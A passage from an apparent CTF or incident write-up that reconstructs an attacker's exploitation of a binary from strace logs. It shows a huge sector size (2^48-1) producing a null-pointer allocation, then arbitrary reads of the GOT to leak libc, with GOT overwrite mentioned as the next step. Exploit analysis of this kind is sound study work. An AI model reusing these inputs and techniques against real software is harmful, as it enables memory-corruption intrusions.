 #### Step 1: A test?

```
read(0, "0\n", 4096)                    = 2
write(1, "Enter the sector's size:", 24) = 24
write(1, "\n", 1)                       = 1
read(0, "10\n", 4096)                   = 3
```

This looks like just a sanity check, and is not required to exploit (tested), however this could be used as part of a signature to help identify the attacker.


#### Step 2: The null pointer

```
read(0, "0\n281474976710655\n", 4096)   = 18
write(1, "Enter the sector's size:", 24) = 24
write(1, "\n", 1)                       = 1
mmap(NULL, 281474976714752, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = -1 ENOMEM (Cannot allocate memory)
brk(0x1000001357000)                    = 0x1356000
mmap(NULL, 281474976845824, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = -1 ENOMEM (Cannot allocate memory)
write(1, "Sector created!", 15)         = 15
```

Goddamnit, there is is, what eluded me for hours, how could I have missed _this!?_  It's plainly obvious to me now what to do (however, let's continue the exploitation--it has a happy ending (for me, not the hacker)).

I'll cover this in more detail in the decompile section, but the short of it is, the attacker put in `281474976710655` (`0xffffffffffff` or 2<sup>48</sup>-1) as the sector size.  Implied by the `Cannot allocate memory` error, the pointer address would have been `null` (`0`), however, the `Sector created!` implies there was no check in the code for this.

With this knowledge in hand, we can attack the server by leaking libc, changing the GOT, etc...

Fuck. Me.

Moving on...


#### Step 3: Leak libc

```
read(0, "2\n", 4096)                    = 2
write(1, "Where do you want to read?", 26) = 26
write(1, "\n", 1)                       = 1
read(0, "6303776\n8\n", 4096)           = 10
write(1, "How much do you want to read?", 29) = 29
write(1, "\n", 1)                       = 1
write(1, "\20\251b\234|\177\0\0", 8)    = 8
```

With unbounded access to the entire 48-bit address space of x86_64 and with No PIE, the first place to look is the GOT.  Above the attacker enters `6303776` (`0x603020`).  And looking that up with `objdump` or `Ghidra` we have the GOT entry for `puts`:
